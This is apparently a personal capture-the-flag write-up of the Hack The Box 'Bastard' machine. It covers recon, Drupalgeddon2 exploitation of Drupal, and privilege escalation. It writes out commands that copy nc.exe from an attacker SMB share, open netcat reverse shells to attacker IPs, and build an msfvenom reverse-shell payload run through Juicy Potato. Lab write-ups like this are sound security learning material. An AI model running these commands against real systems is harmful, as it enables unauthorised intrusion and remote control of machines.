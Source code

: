 # Bastard Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA bastard 10.10.10.9 -T4``

``80/tcp    open  http    Microsoft IIS httpd 7.5``

``135/tcp   open  msrpc   Microsoft Windows RPC``

``49154/tcp open  msrpc   Microsoft Windows RPC``

# ${{\color{purple}Initial Foothold}}\ $

### I found a drupal installation :

![image](https://user-images.githubusercontent.com/123066149/222651004-4f57a881-a658-42b1-9971-eed3a3e336a9.png)

### And just after I found the version :

![image](https://user-images.githubusercontent.com/123066149/222651316-1a0c5c4c-72df-4617-a4a4-4b99ff7a49d5.png)

### After a little research on my exploit database :

![image](https://user-images.githubusercontent.com/123066149/222651599-021d5a98-9551-49a5-9dda-a5b8e4e49f2f.png)

### I used Drupalgeddon2 for the exploitation part :

https://github.com/dreadlocked/Drupalgeddon2

# ${{\color{purple}Exploitation}}\ $

### I met a problem during the execution it is necessary to install a ruby gem :

![image](https://user-images.githubusercontent.com/123066149/222652135-0d69f8e1-66bf-43a9-99b2-d1284cce2573.png)

``ruby drupalgeddon2.rb http://10.10.10.9``

![image](https://user-images.githubusercontent.com/123066149/222652407-c72044a9-a977-4103-80d7-0aa443c1b8d7.png)

![image](https://user-images.githubusercontent.com/123066149/222652670-508a49d3-2911-4db4-ad3b-932e7fc9c50a.png)

``/usr/bin/impacket-smbserver kali .``

``copy \\10.10.16.2\kali\nc.exe``

### Here I use nc to be able to execute commands because with the exploit I am blocked in the root of the web server.
### I tried powershell and cmd and it does not work with powershell.

``nc.exe 10.10.16.2 1234 -e powershell.exe``

``nc.exe 10.10.16.2 1234 -e cmd.exe``

# ${{\color{purple}Privilege Escalation}}\ $

``whoami /priv``

![image](https://user-images.githubusercontent.com/123066149/222653150-d960687b-fcc3-4815-ae6d-8fef5e7d11b8.png)

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p whoami``

![image](https://user-images.githubusercontent.com/123066149/222653070-65967f13-6367-46e0-9706-88a7f4bc4fc8.png)

``mmsfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe -o exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/222653552-a4fc6dcc-3560-4202-a773-942dfcbf8786.png)

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p C:\inetpub\drupal-7.54\exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/222653326-a6bb088c-8984-4daa-8634-75fd0e114c60.png)

### Other way :

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

# ${{\color{purple}Points of Improvement}}\ $

* if I have a problem with the execution of an exploit in rubby

``gem install xx``

![image](https://user-images.githubusercontent.com/123066149/222652135-0d69f8e1-66bf-43a9-99b2-d1284cce2573.png)

* Other way :

![image](https://user-images.githubusercontent.com/123066149/222665701-0b747998-8481-4c25-a2ef-4e6a4a246310.png)


